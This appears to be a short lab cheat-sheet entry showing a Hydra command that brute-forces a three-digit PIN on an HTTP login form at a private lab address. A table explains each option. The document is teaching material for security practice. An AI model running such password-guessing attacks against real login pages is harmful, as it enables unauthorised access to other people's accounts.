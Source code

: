 Used to bruteforce password attacks. 
```sh
hydra -l '' -P 3digits.txt -f -v 10.10.73.59 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

|Option|Description|
|-|-|
|`-l NAME`|indicates the login name|
|`-P WORDLIST`|specifies the password file to use|
|`-f`|stops Hydra after finding a working password|
|`-v`|verbose|
|`http-post-form`|Specifies the HTTP method to use|
|`"/PAGE:PASS_VARIABLE_NAME=^PASS^:INVALID_TEXT"`|Has three parts separated by :, first the page where the HTTP is submitted, Where it will replace `^PASS^` with the values from the password list. Indicates that invalid passwords will lead to a page with that text|
|`-s PORT`|indicates the port number|

